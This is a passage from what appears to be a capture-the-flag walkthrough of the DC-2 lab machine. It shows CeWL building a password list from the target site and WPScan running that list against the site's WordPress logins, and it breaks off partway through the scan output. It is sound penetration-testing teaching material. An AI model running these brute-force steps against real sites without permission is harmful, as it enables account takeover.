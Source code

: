 Great, now these links are resolving. And we can grab Flag 1 linked on the front page:
```
Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.
More passwords is always better, but sometimes you just can’t win them all.
Log in as one to see the next flag.
If you can’t find it, log in as another.
```

Seems like we are expected to use CeWL, a Custom Word List generator (which coincidentally comes with Kali and is pronounced "cool"). CeWL is neat because it spiders a given URL, up to a specified depth, and returns a list of words which can then be used for password crackers like john or hashcat. It's important to use the `-w` flag so we don't add the banner to the list. The following command grabs all the words of 3 characters or greater and saves them to a file.

```bash
$ cewl dc-2 -w password_list.txt
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

We could also do some spidering of our own with dirbuster or gobuster, but since this is a WordPress site and WPScan was built specifically to scan those sites, we should probably take advantage (it also coincidentally comes with Kali). The plain `wpscan --url dc-2` comes up with some interesting info, but we're here to get access!

```
$ wpscan --url dc-2 -P password_list.txt -e ap
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.7.9
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [10.10.10.7]
[+] Started: Tue Aug 18 21:07:34 2020

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
```